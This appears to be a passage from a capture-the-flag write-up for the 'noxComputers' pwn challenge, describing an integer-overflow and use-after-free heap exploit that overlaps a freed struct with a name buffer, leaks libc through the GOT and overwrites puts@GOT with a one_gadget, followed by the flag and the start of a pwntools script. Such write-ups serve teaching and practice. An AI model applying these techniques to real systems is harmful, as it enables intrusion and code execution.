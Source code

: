 6) Allocate a new user using `buy_multiple_premium_users()` - we cannot simply use `buy_premium_user()` because there's a validation for the `user_count`, and even when we use the `buy_multiple_premium_users()` we have to specify the `premiums_count` in such a way that we overflow the same check again, otherwise we can not bypass the overflow check.
    - That allocation has to be allocated very carefully - if we are careful enough, we can get the FREED `user` struct to overlap with the new allocation's `name` member, this allows us a complete control over the old free'd `user` struct which we can still access!

7) After getting the `name` member of the new `user` to overlap with the WHOLE free'd `user` struct, if we specify the name of the new `user` struct to be a GOT entry address, when we call `show_account_details()` for the free'd `user` we can leak a libc address, and when we call `edit_account_details()` we can edit a GOT entry - and since we already have a libc-leak, we can just overwrite `puts@GOT` with a one gadget address (luckily, when calling `puts()`, the `rax == NULL` is met, and we can use one of the gadgets retrieved by [one_gadget](https://github.com/david942j/one_gadget)) 

8) Profit =)

## The Leak

As already mentioned in the previous section, the leak is possible when we simply overlap a `user` struct with a `name` member of another `user` struct, since we can edit the `name` member, we have full control over the struct, allowing us to edit IT'S `name` member, and to print a value from anywhere we want by triggering `show_account_details()`.

## Flow Hijacking

Again- as already mentioned, the flow hijacking is possible when we simply overlap a `user` struct with a `name` member of another `user` struct, and since we can edit the `name` member, we have full control over the struct, allowing us to edit IT'S `name` member, and to write any value to anywhere we want by simply triggering `edit_account_details()`.

## Exploit Code

The flag is: `noxCTF{0ne_int3ger_0v3rflow_t0_rule_th3m_4ll}`

```Python
from pwn import *

r = process("./noxComputers")

def menu():
	r.recvuntil('choice: ')

def buy_premium(name, money):
	menu()
	r.sendline('1')
	r.sendlineafter('username: ', name)
	r.sendlineafter('account: ', str(money))

def buy_multiple_premiums(amount, actual_amount, name_list, money_list):
	menu()
	r.sendline('2')
	r.sendlineafter('buy: ', str(amount))
	r.recvline()
	for i in xrange(actual_amount):
		r.sendafter('Y: ', 'x')
		r.send('')
		r.sendlineafter(': ', name_list[i])
		r.sendlineafter('user: ', str(money_list[i]))
		r.recvline()
	
	if amount != actual_amount:
		r.sendlineafter('Y: ', 'Y')
	r.recvline()
```
